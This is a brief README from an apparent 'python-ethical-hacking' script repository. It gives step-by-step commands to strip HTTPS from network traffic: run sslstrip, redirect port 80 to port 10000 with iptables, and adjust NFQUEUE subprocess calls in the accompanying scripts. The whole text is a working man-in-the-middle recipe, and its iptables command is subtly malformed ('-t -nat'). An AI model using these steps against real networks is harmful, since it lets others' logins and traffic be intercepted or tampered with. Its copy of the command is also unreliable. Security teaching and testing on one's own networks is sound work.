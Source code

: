 # python-ethical-hacking
Scripts for basic ethical hacking

## To bypass HTTPS:

1. Run `sslstrip` in Terminal
2. Run `iptables -t -nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000` in Terminal
3. Replace `subprocess.call("iptables -I FORWARD -j NFQUEUE --queue-num 0", shell=True)` in code to `subprocess.call("iptables -I OUTPUT -j NFQUEUE --queue-num 0", shell=True)` and `subprocess.call("iptables -I INPUT -j NFQUEUE --queue-num 0", shell=True)`
4. Replace any reference to port 80 in code to port 10000
